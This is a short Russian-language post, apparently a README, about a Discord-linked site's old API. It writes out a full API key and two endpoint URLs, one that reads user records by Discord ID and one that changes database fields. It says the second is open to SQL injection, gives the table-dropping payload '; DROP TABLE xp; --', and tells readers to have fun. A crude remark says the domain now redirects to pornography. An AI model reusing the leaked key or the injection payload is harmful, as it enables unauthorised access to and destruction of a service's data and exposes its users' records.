 Редирект на гей-порно: http://xeval.ga

**Старая система API: (URL новой не известен)**

- Получения информации о юзере https://xeval.ga/api/users/?api_key=dsODorrEckd12Ddc.ifRdl.KOA&id=485760845142556682&id=[DISCORD ID ЮЗЕРА]

- Изменение чего-то в базе (с SQL инъекцией!): https://xeval.ga/api/modify/?api_key=dsODorrEckd12Ddc.ifRdl.KOA&id=[DISCORD ID ЮЗЕРА]&field=[ПОЛЕ В БАЗЕ]&value=[ЗНАЧЕНИЕ]

В последнем запросе об изменении можно вставить, что угодно. Хоть `; DROP TABLE xp; --` :)

Развлекайтесь, но не забывайте, там все ЧСВ)
